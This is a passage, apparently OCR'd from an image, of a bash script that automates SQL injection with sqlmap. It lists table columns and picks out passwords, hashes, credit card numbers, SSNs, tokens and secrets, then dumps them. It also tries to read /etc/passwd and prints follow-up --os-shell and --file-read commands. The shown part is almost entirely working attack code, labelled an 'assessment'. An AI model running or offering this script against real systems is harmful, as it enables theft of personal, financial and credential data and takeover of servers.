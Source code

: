 ```bash
fi

# Phase 4: Column Enumeration and Data Extraction
for table in "${INTERESTING_TABLES[@]}"; do
  echo "[+] Examining table: $table"
  
  # Get columns
  run_sqlmap "Columns in $table" "sqlmap -u \"$TARGET_URL\" --batch --random-agent -D $CURRENT_DB -T $table --columns --threads=$THREADS --output-dir=$OUTPUT_DIR"
  
  # Look for sensitive columns
  COLUMNS_FILE="$OUTPUT_DIR/sensitive_columns_${table}.txt"
  grep -A 100 "columns for table" "$OUTPUT_DIR/Columns_in_${table}.txt" | grep "|" | grep -v "Column" | awk '{print $2}' > "$COLUMNS_FILE"
  
  SENSITIVE_COLUMNS=()
  for pattern in "id" "name" "user" "username" "login" "pass" "password" "hash" "email" "mail" "address" "phone" "credit" "card" "token" "key" "secret" "ssn" "social" "admin" "permission" "role"; do
    grep -i "$pattern" "$COLUMNS_FILE" >> "$OUTPUT_DIR/priority_columns_${table}.txt"
  done
  
  if [ -s "$OUTPUT_DIR/priority_columns_${table}.txt" ]; then
    COLUMNS=$(cat "$OUTPUT_DIR/priority_columns_${table}.txt" | sort | uniq | tr '\n' ',' | sed 's/,$//')
  else
    # If no sensitive columns found, use all columns
    COLUMNS=$(cat "$COLUMNS_FILE" | tr '\n' ',' | sed 's/,$//')
  fi
  
  # Dump data from table
  echo "[+] Dumping data from table $table (columns: $COLUMNS)"
  run_sqlmap "Dump $table" "sqlmap -u \"$TARGET_URL\" --batch --random-agent -D $CURRENT_DB -T $table -C $COLUMNS --dump --threads=$THREADS --output-dir=$OUTPUT_DIR"
done

# Phase 5: Advanced Exploitation (optional)
echo "[+] Checking for advanced exploitation possibilities"

# Check for file system access
run_sqlmap "File Read Check" "sqlmap -u \"$TARGET_URL\" --batch --random-agent --file-read=/etc/passwd --threads=$THREADS --output-dir=$OUTPUT_DIR"

# Check for OS shell
if grep -q "the target is" "$OUTPUT_DIR/File_Read_Check.txt"; then
  echo "[!] Target appears to allow file system access. You may want to manually try:"
  echo "    sqlmap -u \"$TARGET_URL\" --file-read=/etc/passwd"
  echo "    sqlmap -u \"$TARGET_URL\" --os-shell"
fi

# Summary report
echo "[+] Creating summary report"
{
  echo "SQL Injection Assessment Summary"
  echo "================================"
  echo ""
  echo "Target URL: $TARGET_URL"
  echo "Date: $(date)"
  echo ""
  echo "Vulnerability Status:"
  if grep -q "is vulnerable" "$OUTPUT_DIR/log"; then
    echo "✓ SQL Injection vulnerability confirmed"
    grep -A 2 "vulnerable to " "$OUTPUT_DIR/log" | grep -v "testing " | sed 's/\[.\]/    /'
  else
```